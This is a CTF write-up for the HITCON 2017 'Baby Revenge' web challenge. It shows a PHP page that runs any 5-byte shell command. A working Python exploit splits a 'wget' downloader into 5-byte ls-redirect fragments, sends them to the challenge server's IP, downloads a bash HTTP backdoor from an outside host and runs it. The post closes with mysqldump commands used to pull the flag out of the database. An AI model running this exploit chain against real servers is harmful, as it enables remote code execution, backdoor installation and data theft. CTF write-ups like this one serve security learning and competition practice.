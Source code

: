 ```yaml
---
layout: post
title: Hitcon CTF 2017 - Baby Revenge
categories: ctf_hitcon2017
keywords: "web"
comments: true
authors:
    - andreafioraldi
---
```

{{ page.date | date: "%B %-d, %Y" }}


The page's code is:

```php
<?php
    $sandbox = '/home/andrea/Desktop/fff/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
	highlight_file(__FILE__);
```

You can execute a shell command but you have only 5 bytes.

My idea is to use the 'ls' output to write in a file and execute it.

The target file is '\\' so it does not affect the shell script semantics.

The procedure is:
* create a file
* redirect ls output to '\\'
* remove the file.

I want to write 'wget myserver.com' in this way, and after execute it.

In myserver i have a bash http backdoor, so after downloading it i want to execute it.

```python
import requests
import progressbar

#obfuscated code using ls (max 5 byte each command)
#'wget tuly.pythonanywhere.com; sh index.html'
code = """
>IFS\
ls>>\
rm I*
>=:
ls>>\
rm =:
>a=\
ls>>\
rm a*
>wg\
ls>>\
rm w*
>et:\
ls>>\
rm e*
>tul\
ls>>\
rm t*
>y.\
ls>>\
rm y*
>pyt\
ls>>\
rm p*
>hon\
ls>>\
rm h*
>any\
ls>>\
rm a*
>whe\
ls>>\
rm w*
>re.\
ls>>\
rm r*
>com
ls>>\
rm c*
>b=\
ls>>\
rm b*
>mv:\
ls>>\
rm m*
>ind\
ls>>\
rm i*
>ex.\
ls>>\
rm e*
>ht\
ls>>\
rm h*
>ml:\
ls>>\
rm m*
>p
ls>>\
rm p*
>\$a
>\$b
ls>>\
"""

url = "http://52.199.204.34/"

lines = code.split("\n")

print "Writing downloader..."
with progressbar.ProgressBar(max_value=len(lines)) as bar:
    for i in xrange(len(lines)):
        l = lines[i].rstrip()
        if l == "":
            continue
        requests.get(url + "?cmd=" + l)
        bar.update(i)

print "Executing downloader..."
requests.get(url + "?cmd=sh \\")

print "Executing backdoor..."
requests.get(url + "?cmd=sh p")
```

In the home directory of the system we found that the flag is in the MySQL db 

Having a polling backdoor we needed to use one command to exfiltrate the flag from the DB, so we used something like this:
`mysqldump -u user -p'password' flagdb`
Now, there was some issues we faced:
* A lock made our dump query fail
* The database contained chinese characters that as well made our dump query fail
With this in mind we rewrote our query to something like this
`mysqldump -u user -p'password' flagdb --single-transaction --compatible-charset`
